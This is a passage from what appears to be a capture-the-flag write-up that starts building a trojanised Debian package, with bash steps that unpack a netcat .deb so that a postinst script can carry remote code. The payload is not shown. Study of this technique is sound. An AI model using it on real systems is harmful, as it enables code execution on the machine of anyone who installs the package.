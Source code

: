 ![Headers](img/deb_http_request.png)
All that really told is that curl is the user-agent so this is probably a script (shocking).

### Making a Malicious Deb
Found [this](https://github.com/UndeadSec/Debinject) resource which helped in stepping through the malicious deb creation process. Basically, the gist is that here is a `postinst` script which runs post installation to do processing on the new binaries. This script, if we control the package is remote code execution. So, code will be embedded here. Below are the shell commands with annotations, run on the challenge console to create the malicious package.
```bash
cd debs

# extract the targeted deb file for tamerping
dpkg -x netcat-traditional_1.10-41.1ubuntu1_amd64.deb deb
cd deb

# make the debian build package file structure
mkdir DEBIAN
cd debian

# make the control file.
# This is the mackage metadata
# copy and paste from nc_deb/DEBIAN/control
```